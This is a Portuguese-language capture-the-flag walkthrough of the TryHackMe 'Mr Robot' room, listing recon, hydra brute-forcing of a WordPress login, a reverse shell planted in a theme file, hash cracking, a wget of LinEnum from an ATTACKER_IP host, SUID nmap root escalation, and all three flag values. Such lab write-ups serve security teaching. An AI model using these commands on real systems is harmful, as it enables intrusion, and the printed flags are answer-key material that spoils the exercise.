







# Mr Robot CTF - TryHackMe

**Difficulty: Medium**

### nmap
```bash
nmap -p- -sV -vv 10.64.160.199

PORT    STATE SERVICE  REASON  VERSION
22/tcp  open  ssh      syn-ack OpenSSH 8.2p1 Ubuntu 4ubuntu0.13 (Ubuntu Linux; protocol 2.0)
80/tcp  open  http     syn-ack Apache httpd
443/tcp open  ssl/http syn-ack Apache httpd
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Acessando a porta 80, é possível encontrar um falso terminal web.


### ffuf
```bash
ffuf -w /opt/seclists/Discovery/Web-Content/raft-small-directories.txt -u http://10.64.160.199/FUZZ -e .php,.txt,.html,.bak,.zip,.sql

login                   [Status: 302, Size: 0, Duration: 411ms]
phpmyadmin              [Status: 403, Size: 94, Duration: 115ms]
robots.txt              [Status: 200, Size: 41, Duration: 113ms]
wp-login                [Status: 200, Size: 2671, Duration: 391ms]
wp-admin                [Status: 301, Size: 238, Duration: 114ms]
```

No robots.txt foi possível encontrar o arquivo `key-1-of-3.txt`

### Key 1
Ao acessar, encontramos a primeira key
```
073403c8a58a1f80d943455fb30724b9
```

Acessando o fsocity.dic é possível ver várias palavras aleatórias. Vou salvar esse arquivo na minha máquina.
```bash
wget http://10.64.160.199/fsocity.dic
```

Agora, no http://10.64.160.199/wp-login.php vou utilizar o burp suite, para visualizar a requisição e tentar fazer um brute force com hydra, junto com aquela wordlist fsocity.dic



Parâmetro capturado no burp
```
log=admin&pwd=admin&wp-submit=Log+In&redirect_to=http%3A%2F%2F10.64.160.199%2Fwp-admin%2F&testcookie=1
```

Analisando o fsocity.doc, percebi que tem muitas palavras duplicadas, então vou criar uma nova wordlist, sem duplicados.
```bash
sort -u fsocity.dic > wordlist.txt
```

### Hydra

Vou rodar o hydra para tentar encontrar primeiro o username, depois o password
```bash
hydra -L wordlist.txt -p senha 10.64.160.199 http-post-form "/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log+In&redirect_to=%2Fwp-admin%2F&testcookie=1:Invalid username"

[80][http-post-form] host: 10.64.160.199   login: Elliot   password: senha
```

```bash
hydra -l Elliot -P wordlist.txt 10.64.160.199 http-post-form "/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log+In&redirect_to=%2Fwp-admin%2F&testcookie=1:is incorrect"

[80][http-post-form] host: 10.64.160.199   login: Elliot   password: ER28-0652
```

Funcionou, as credenciais:
`Elliot:ER28-0652`


Wordpress 4.3.1
Theme Twenty Fifteen

O wordpress possuí o editor de arquivos habilitado por padrão, então vou colocar um arquivo de reverse shell dentro do template 404.php



```bash
nc -lvnp 3333
```

Por padrão no wordpress, o arquivo está em
```
/wp-content/themes/<nome-do-tema>/<arquivo>.php
```

Portanto, devo entrar 
```
http://10.64.160.199/wp-content/themes/twentyfifteen/404.php
```



Agora vou deixar a shell interativa
```bash
$ python3 -c "import pty;pty.spawn('/bin/bash')" 
daemon@ip-10-64-160-199:/$ ^Z
[1]+  Stopped                 nc -lvnp 3333
pdro@magic:~/ctf/tryhackme/Mr Robot CFT$ stty raw -echo; fg
nc -lvnp 3333

daemon@ip-10-64-160-199:/$ export TERM=xterm
```

Explorando a máquina, encontro
```bash
daemon@ip-10-64-160-199:/home/robot$ ls -la
-r-------- 1 robot robot   33 Nov 13  2015 key-2-of-3.txt
-rw-r--r-- 1 robot robot   39 Nov 13  2015 password.raw-md5
```

Lendo o arquivo password.raw-md5
```bash
daemon@ip-10-64-160-199:/home/robot$ cat password.raw-md5 
robot:c3fcd3d76192e4007dfb496cca67e13b
```

### John
Vou usar o john
```bash
echo "c3fcd3d76192e4007dfb496cca67e13b" > hash.txt

john hash.txt --format=raw-md5 --wordlist=/opt/rockyou.txt
abcdefghijklmnopqrstuvwxyz
```

Agora sabemos que a senha do usuário robot é abcdefghijklmnopqrstuvwxyz



### Key 2
```bash
$ cat key-2-of-3.txt
822c73956184f694993bede3eb39f959
```

### LinEnum

Agora vou usar o LinEnum

Minha máquina
```bash
python3 -m http.server
```

Máquina alvo
```
robot@ip-10-64-160-199:~$ wget http://ATTACKER_IP:8000/LinEnum.sh -O /tmp/LinEnum.sh
```

```bash
robot@ip-10-64-160-199:/tmp$ ./LinEnum.sh
[+] Possibly interesting SUID files:
-rwsr-xr-x 1 root root 17272 /usr/local/bin/nmap
```

nmap com SUID root

No gtfobins é possível encontrar um shell com root:
```bash
robot@ip-10-64-160-199:/tmp$ nmap --interactive
Starting nmap V. 3.81 ( http://www.insecure.org/nmap/ )
Welcome to Interactive Mode -- press h <enter> for help
nmap> !sh
root@ip-10-64-160-199:/tmp# whoami
root
```

### Key 3
```bash
root@ip-10-64-160-199:/root# cat key-3-of-3.txt
04787ddef27c3dee1ee161b21670b4e4
```
